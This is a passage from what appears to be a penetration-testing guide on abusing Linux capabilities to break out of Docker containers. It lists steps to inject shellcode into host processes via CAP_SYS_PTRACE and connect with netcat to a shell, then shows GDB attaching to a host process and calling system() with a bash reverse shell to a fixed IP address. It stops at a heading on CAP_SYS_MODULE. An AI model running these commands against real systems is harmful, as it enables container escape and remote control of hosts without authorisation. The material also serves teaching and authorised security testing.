 #### Example with environment (Docker breakout) - Shellcode Injection

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root
```

List **processes** running in the **host** `ps -eaf`

1. Get the **architecture** `uname -m`
2. Find a **shellcode** for the architecture ([https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128))
3. Find a **program** to **inject** the **shellcode** into a process memory ([https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c](https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c))
4. **Modify** the **shellcode** inside the program and **compile** it `gcc inject.c -o inject`
5. **Inject** it and grab your **shell**: `./inject 299; nc 172.17.0.1 5600`

#### Example with environment (Docker breakout) - Gdb Abuse

If **GDB** is installed (or you can install it with `apk add gdb` or `apt install gdb` for example) you can **debug a process from the host** and make it call the `system` function. (This technique also requires the capability `SYS_ADMIN`)**.**

```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```

You won’t be able to see the output of the command executed but it will be executed by that process (so get a rev shell).

### CAP\_SYS\_MODULE

**This means that you can** **insert/remove kernel modules in/from the kernel of the host machine.**

#### Example with binary
